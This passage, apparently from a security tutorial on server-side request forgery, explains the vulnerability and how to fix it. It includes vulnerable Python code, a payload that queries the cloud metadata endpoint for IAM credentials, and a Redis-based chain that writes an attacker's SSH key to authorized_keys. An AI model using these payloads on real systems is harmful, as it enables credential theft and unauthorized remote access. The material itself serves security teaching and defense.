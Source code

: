 **Automated Detection:**
```bash
# Using Nuclei Templates
nuclei -t ssrf.yaml -target https://target.com

# Using SSRFmap
python ssrfmap.py -r request.txt -p url -m readfiles
```

### Real-World Example

**Scenario:** SSRF in Image Processing Service

**Vulnerable Code:**
```python
from urllib.request import urlopen

def fetch_image(image_url):
    return urlopen(image_url).read()

# User-controlled URL
image_data = fetch_image(request.args.get('url'))
```

**Attack Payload:**
```
https://target.com/fetch-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
```

**HackerOne Report:** [#341876 - SSRF in Exchange leads to ROOT access](https://hackerone.com/reports/341876)

### Exploitation to RCE Chain

1. **Discover internal Redis instance:**
```
https://target.com/fetch-image?url=http://localhost:6379/
```

2. **Write SSH key to authorized_keys using Redis:**
```
https://target.com/fetch-image?url=redis://localhost:6379/
      CONFIG SET dir /home/user/.ssh/
      CONFIG SET dbfilename authorized_keys
      SET payload "\n\nssh-rsa AAAA...your-ssh-key...xyz user@attacker\n\n"
      SAVE
```

### Remediation

1. **Whitelist Allowed Domains/IPs**
2. **Block access to private IPs and localhost**
3. **Use specific SDK instead of generic HTTP clients**
4. **Deploy network-level protections**
5. **Configure proper cloud service ACLs**

---